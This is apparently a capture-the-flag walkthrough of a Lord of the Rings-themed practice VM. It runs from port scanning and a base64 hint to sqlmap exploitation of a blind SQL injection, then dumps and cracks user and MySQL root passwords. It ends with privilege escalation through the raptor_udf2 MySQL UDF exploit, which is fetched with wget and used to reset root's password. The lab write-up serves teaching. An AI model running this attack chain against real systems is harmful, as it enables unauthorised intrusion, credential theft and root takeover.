

Author Description
I created this machine to help others learn some basic CTF hacking strategies and some tools. I aimed this machine to be very similar in difficulty to those I was breaking on the OSCP.
##Enumeration
V -A -sT -p 1-65535 192.168.30.140
Starting Nmap 7.00 ( https://nmap.org ) at 2015-11-23 12:36 EST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 2.72% done; ETC: 12:40 (0:03:35 remaining)
Nmap scan report for 192.168.30.140
Host is up, received arp-response (0.00037s latency).
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux;
protocol 2.0)
| ssh-hostkey:
| 1024 3c:3d:e3:8e:35:f9:da:74:20:ef:aa:49:4a:1d:ed:dd (DSA)
| 2048 85:94:6c:87:c9:a8:35:0f:2c:db:bb:c1:3f:2a:50:c1 (RSA)
|_ 256 f3:cd:aa:1d:05:f2:1e:8c:61:87:25:b6:f4:34:45:37 (ECDSA)
1337/tcp open http syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:D0:63:8A (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1
open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 3.19, Linux 3.2 - 4.0
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.37 ms 192.168.30.140
OS and Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.92 seconds
Enumeration process started. ###Service Enumeration
| Port | Service | Version Detection |
|---|---|---|
|
|
SSH |
OpenSSH 6.6.1p1 Ubuntu |
|
|
HTTP |
Apache/2.4.7 (Ubuntu) |
###HTTP Enumeration
Viewing any 404 page rendered:

Inspection of the page source revealed a base64 encoded string, encoded within another string:
[root:~]# echo "THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh" | base64 -d
Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!#
[root:~]# echo "Lzk3ODM0NTIxMC9pbmRleC5waHA=" | base64 -d
/978345210/index.php#The above URL exposed a web form, vulnerable to SQL injection.
SQLMAP
Thw following SQLMap commands were leveraged during the SQL enumeration and SQL injection database dumping.
SQLMap Enumerate Databases
# sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms --dbsSQLMap Full Command
_
___ ___| |_____ ___ ___ {1.0-dev-nongit-20150826}
|_ -| . | | | .'| . |
|___|_ |_|_|_|_|__,| _|
|_| |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets
without prior mutual consent is illegal. It is the end user's
responsibility to obey all applicable local, state and federal
laws. Developers assume no liability and are not responsible
for any misuse or damage caused by this program
[*] starting at 13:38:08
[13:38:08] [INFO] testing connection to the target URL
[13:38:08] [INFO] heuristics detected web page charset 'ascii'
[13:38:08] [INFO] searching for forms
[#1] form:
POST http://192.168.30.140:1337/978345210/index.php
POST data: username=&password=&submit=%20Login%20
do you want to test this form? [Y/n/q]
> Y
do you want to fill blank fields with random values? [Y/n] Y
[13:38:18] [INFO] using
'/root/.sqlmap/output/results-11232015_0138pm.csv' as the CSV
results file in multiple targets mode
[13:38:18] [INFO] heuristics detected web page charset 'ascii'
[13:38:18] [INFO] testing if the target URL is stable
[13:38:19] [INFO] target URL is stable
[13:38:19] [INFO] testing if POST parameter 'username' is
dynamic
[13:38:19] [WARNING] POST parameter 'username' does not appear
dynamic
[13:38:19] [WARNING] heuristic (basic) test shows that POST
parameter 'username' might not be injectable
[13:38:19] [INFO] testing for SQL injection on POST parameter
'username'
[13:38:19] [INFO] testing 'AND boolean-based blind - WHERE or
HAVING clause'
[13:38:20] [INFO] testing 'MySQL >= 5.0 boolean-based blind -
Parameter replace'
[13:38:20] [INFO] testing 'MySQL >= 5.0 AND error-based -
WHERE, HAVING, ORDER BY or GROUP BY clause'
[13:38:20] [INFO] testing 'PostgreSQL AND error-based - WHERE
or HAVING clause'
[13:38:21] [INFO] testing 'Microsoft SQL Server/Sybase AND
error-based - WHERE or HAVING clause'
[13:38:21] [INFO] testing 'Oracle AND error-based - WHERE or
HAVING clause (XMLType)'
[13:38:21] [INFO] testing 'MySQL >= 5.0 error-based - Parameter
replace'
[13:38:21] [INFO] testing 'MySQL inline queries'
[13:38:21] [INFO] testing 'PostgreSQL inline queries'
[13:38:21] [INFO] testing 'Microsoft SQL Server/Sybase inline
queries'
[13:38:21] [INFO] testing 'MySQL > 5.0.11 stacked queries
(SELECT - comment)'
[13:38:21] [INFO] testing 'PostgreSQL > 8.1 stacked queries
(comment)'
[13:38:22] [INFO] testing 'Microsoft SQL Server/Sybase stacked
queries (comment)'
[13:38:22] [INFO] testing 'Oracle stacked queries
(DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:38:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind
(SELECT)'
[13:38:22] [INFO] testing 'PostgreSQL > 8.1 AND time-based
blind'
[13:38:23] [INFO] testing 'Microsoft SQL Server/Sybase
time-based blind'
[13:38:23] [INFO] testing 'Oracle AND time-based blind'
[13:38:23] [INFO] testing 'Generic UNION query (NULL) - 1 to 10
columns'
[13:38:23] [WARNING] using unescaped version of the test
because of zero knowledge of the back-end DBMS. You can try to
explicitly set it using option '--dbms'
[13:38:26] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10
columns'
[13:38:29] [WARNING] POST parameter 'username' is not
injectable
[13:38:29] [INFO] testing if POST parameter 'password' is
dynamic
[13:38:29] [WARNING] POST parameter 'password' does not appear
dynamic
[13:38:30] [WARNING] heuristic (basic) test shows that POST
parameter 'password' might not be injectable
[13:38:30] [INFO] testing for SQL injection on POST parameter
'password'
[13:38:30] [INFO] testing 'AND boolean-based blind - WHERE or
HAVING clause'
[13:38:30] [INFO] testing 'MySQL >= 5.0 boolean-based blind -
Parameter replace'
[13:38:30] [INFO] testing 'MySQL >= 5.0 AND error-based -
WHERE, HAVING, ORDER BY or GROUP BY clause'
[13:38:30] [INFO] testing 'PostgreSQL AND error-based - WHERE
or HAVING clause'
[13:38:31] [INFO] testing 'Microsoft SQL Server/Sybase AND
error-based - WHERE or HAVING clause'
[13:38:31] [INFO] testing 'Oracle AND error-based - WHERE or
HAVING clause (XMLType)'
[13:38:31] [INFO] testing 'MySQL >= 5.0 error-based - Parameter
replace'
[13:38:31] [INFO] testing 'MySQL inline queries'
[13:38:31] [INFO] testing 'PostgreSQL inline queries'
[13:38:31] [INFO] testing 'Microsoft SQL Server/Sybase inline
queries'
[13:38:31] [INFO] testing 'MySQL > 5.0.11 stacked queries
(SELECT - comment)'
[13:38:32] [INFO] testing 'PostgreSQL > 8.1 stacked queries
(comment)'
[13:38:32] [INFO] testing 'Microsoft SQL Server/Sybase stacked
queries (comment)'
[13:38:32] [INFO] testing 'Oracle stacked queries
(DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[13:38:32] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind
(SELECT)'
[13:38:42] [INFO] POST parameter 'password' seems to be 'MySQL
>= 5.0.12 AND time-based blind (SELECT)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip
test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for
'MySQL' extending provided level (1) and risk (1) values? [Y/n]
Y
[13:39:31] [INFO] testing 'Generic UNION query (NULL) - 1 to 20
columns'
[13:39:31] [INFO] automatically extending ranges for UNION
query injection technique tests as there is at least one other
(potential) technique found
sqlmap got a 302 redirect to
'http://192.168.30.140:1337/978345210/profile.php'. Do you want
to follow? [Y/n] n
[13:39:35] [INFO] target URL appears to be UNION injectable
with 2 columns
injection not exploitable with NULL values. Do you want to try
with a random integer value for option '--union-char'? [Y/n] Y
[13:39:43] [WARNING] if UNION based SQL injection is not
detected, please consider forcing the back-end DBMS (e.g.
'--dbms=mysql')
[13:39:43] [INFO] checking if the injection point on POST
parameter 'password' is a false positive
POST parameter 'password' is vulnerable. Do you want to keep
testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total
of 336 HTTP(s) requests:
---
Parameter: password (POST)
Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
Payload: username=WWXY&password=' AND (SELECT *
FROM (SELECT(SLEEP(5)))PWKv) AND
'eVRP'='eVRP&submit= Login
---
do you want to exploit this SQL injection? [Y/n] Y
[13:40:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0.12
[13:40:23] [INFO] fetching database names
[13:40:23] [INFO] fetching number of databases
[13:40:23] [INFO] retrieved:
[13:40:23] [WARNING] it is very important not to
stress the network adapter during usage of
time-based payloads to prevent potential errors
do you want sqlmap to try to optimize value(s) for
DBMS delay responses (option '--time-sec')? [Y/n] Y
4
[13:40:54] [INFO] retrieved:
[13:41:04] [INFO] adjusting time delay to 2 seconds
due to good response times
information_schema
[13:43:25] [INFO] retrieved: Webapp
[13:44:15] [INFO] retrieved: mysql
[13:44:56] [INFO] retrieved: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp
[13:47:18] [INFO] you can find results of scanning
in multiple targets mode inside the CSV file
'/root/.sqlmap/output/results-11232015_0138pm.csvSQLMap Database Dump
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] WebappSQLMap Database Table Enumeration
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms -D Webapp
--tablesDatabase: Webapp
[1 table]
+-------+
| Users |
+-------+SQLMap Enumerate Columns
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms -D Webapp
-T Users --columnsDatabase: Webapp
Table: Users
[3 columns]
+----------+--------------+
| Column | Type |
+----------+--------------+
| id | int(10) |
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+SQLMap Dump Passwords
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms -D Webapp
-T Users -C id,username,password --dumpDatabase: Webapp
Table: Users
[5 entries]
+----+----------+------------------+
| id | username | password |
+----+----------+------------------+
| 1 | frodo | iwilltakethering |
| 2 | smeagol | MyPreciousR00t |
| 3 | aragorn | AndMySword |
| 4 | legolas | AndMyBow |
| 5 | gimli | AndMyAxe |
+----+----------+------------------+SQLMap Dump MySQL DB and crack hashes
sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms -D mysql -T
user -C User,Password --dumpSQLMap hash cracking options
do you want to store hashes to a temporary file for eventual further processing
with other tools [y/N] y
[05:03:45] [INFO] writing hashes to a temporary file
'/tmp/sqlmapLg7tgv31954/sqlmaphashes-s2BIJH.txt'
do you want to crack them via a dictionary-based attack? [y/N/q] y
[05:04:28] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[05:04:38] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y
[05:04:43] [INFO] starting dictionary-based cracking (mysql_passwd)
[05:04:43] [INFO] starting 4 processes
[05:04:46] [INFO] cracked password 'darkshadow' for hash
'*4dd56158acdba81bfe3ff9d3d7375231596ce10f' Database: mysql
Table: user
[5 entries]
+------------------+--------------------------------------------------------+
| User | Password |
+------------------+--------------------------------------------------------+
| debian-sys-maint | *A55A9B9049F69BC2768C9284615361DFBD580B34 |
| root | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
| root | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
| root | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
| root | *4DD56158ACDBA81BFE3FF9D3D7375231596CE10F (darkshadow) |
+------------------+--------------------------------------------------------+MySQL Local Privilege Escalation
[email protected]:~$ wget 0xdeadbeef.info/exploits/raptor_udf2.c
--2015-11-24 00:55:17-- http://0xdeadbeef.info/exploits/raptor_udf2.c
Resolving 0xdeadbeef.info (0xdeadbeef.info)... 213.254.16.4
Connecting to 0xdeadbeef.info (0xdeadbeef.info)|213.254.16.4|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3178 (3.1K) [text/x-csrc]
Saving to: ‘raptor_udf2.c’
100%[================================================================================================================================>]
3,178 --.-K/s in 0.02s
2015-11-24 00:55:18 (203 KB/s) - ‘raptor_udf2.c’ saved [3178/3178]
[email protected]:~$ gcc -g -c raptor_udf2.c
[email protected]:~$ gcc -g -shared -W1,-soname,raptor_udf2.so -o
raptor_udf2.so raptor_udf2.o -lc
gcc: error: unrecognized command line option ‘-W1,-soname,raptor_udf2.so’
[email protected]:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o
raptor_udf2.so raptor_udf2.o -lc
[email protected]:~$ mysql -u root
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password:
NO)
[email protected]:~$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 2193
Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)
Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> create table foo(line blob);
ERROR 1050 (42S01): Table 'foo' already exists
mysql> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));
Query OK, 1 row affected (0.01 sec)
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
ERROR 1086 (HY000): File '/usr/lib/mysql/plugin/raptor_udf2.so' already exists
mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name | ret | dl | type |
+-----------+-----+----------------+----------+
| do_system | 2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)
mysql> select do_system('echo "root:passwd" | chpasswd > /tmp/out; chown
smeagol.smeagol /tmp/out');
+---------------------------------------------------------------------------------------+
| do_system('echo "root:passwd" | chpasswd > /tmp/out; chown smeagol.smeagol
/tmp/out') |
+---------------------------------------------------------------------------------------+
|
0 |
+---------------------------------------------------------------------------------------+
1 row in set (0.02 sec)
mysql> exit
ByeRoot
[email protected]:~$ su -
Password:
[email protected]:~# whoami
root
[email protected]:~# id
uid=0(root) gid=0(root) groups=0(root)Root Flag
[email protected]:~# cat /root/Flag.txt
“There is only one Lord of the Ring, only one who can bend it to his will. And
he does not share power.”
– GandalfThanks for the VM :)